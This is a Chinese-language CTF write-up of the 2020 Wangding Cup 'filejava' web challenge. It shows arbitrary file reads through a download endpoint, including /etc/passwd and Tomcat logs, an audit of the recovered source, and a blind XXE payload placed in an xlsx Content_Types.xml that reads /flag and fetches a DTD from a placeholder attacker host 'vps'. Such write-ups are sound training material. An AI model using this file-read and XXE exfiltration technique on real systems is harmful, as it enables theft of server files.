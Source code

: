 ```yaml
---
title: 网鼎杯2020 web
author: ch4ser
typora-root-url: ../
date: 2020-05-11 16:11:31
categories:
  - CTF
cover:
  image: image-20211114142107501.png
---
```


## filejava

提供了文件上传和下载的功能, 在下载功能那里我们可以任意文件读取, 通过把文件名换成文件夹名字可以在报错中爆出绝对路径, 如图: 



![image-20200511193913736](/images/image-20200511193913736.png)

绝对路径

```
/usr/local/tomcat/webapps/ROOT/WEB-INF/upload/0/10/
```

读文件/etc/passwd

![image-20200511194357766](/images/image-20200511194357766.png)

读日志文件 ``logs/catalina.out``

​        ![img](/images/qBJnenyW6ts6Vglb.png__thumbnail)      

发现有一个war包,下载下来进行源码审计, 发现一处突兀的地方

```
        if (filename.startsWith("excel-") && "xlsx".equals(fileExtName))
          try {
            Workbook wb1 = WorkbookFactory.create(in);
            Sheet sheet = wb1.getSheetAt(0);
            System.out.println(sheet.getFirstRowNum());
          } catch (InvalidFormatException e) {
            System.err.println("poi-ooxml-3.10 has something wrong");
            e.printStackTrace();
          }  
```

这里会对exce开头而且后缀名为xlsx的文件进行一个解析, 考虑一下使用xlsx来进行blind xxe, 具体可以参考 https://www.jishuwen.com/d/2inW/zh-hk

新建一个xlsx文档, 解压, 修改``Content_Types.xml``的内容为

```xml
<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///flag">
<!ENTITY % sp SYSTEM "http://vps/ext.dtd">
%sp;
%param3;
%exfil;
]>

```

